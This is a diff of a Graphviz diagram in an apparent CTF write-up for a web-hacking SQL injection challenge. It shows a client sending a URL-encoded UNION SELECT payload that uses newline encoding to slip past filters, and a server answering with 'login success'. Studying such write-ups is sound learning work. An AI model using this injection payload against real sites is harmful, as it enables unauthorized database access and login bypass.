

Before and after one commit to joizel/ctf_writeup: the diagram in docs/web/Base SQL Injection/[webhacking] 07.rst, drawn with Graphviz. The commit also changed other lines of this file and 2 other files, not shown here.

```diff
--- a/docs/web/Base SQL Injection/[webhacking] 07.rst
+++ b/docs/web/Base SQL Injection/[webhacking] 07.rst
@@ -5,21 +7,21 @@
 .. graphviz::
 
     digraph G {
         rankdir="LR";
         node[shape="point"];
         edge[arrowhead="none"]
 
         {
             rank="same";
             "client"[shape="plaintext"];
             "client" -> step0 -> step2 -> step4;
         }
 
         {
             rank="same";
             "server"[shape="plaintext"];
             "server" -> step1 -> step3 -> step5;
         }
         step0 -> step1[label="val='+'1)%0aunion%0aselect%0a3-1%23)",arrowhead="normal"];
-        step3 -> step2[label="select lv from lv1 where lv=('+'1)%0aunion%0aselect%0a3-1%23)",arrowhead="normal"];
+        step3 -> step2[label="login success",arrowhead="normal"];
     }
```
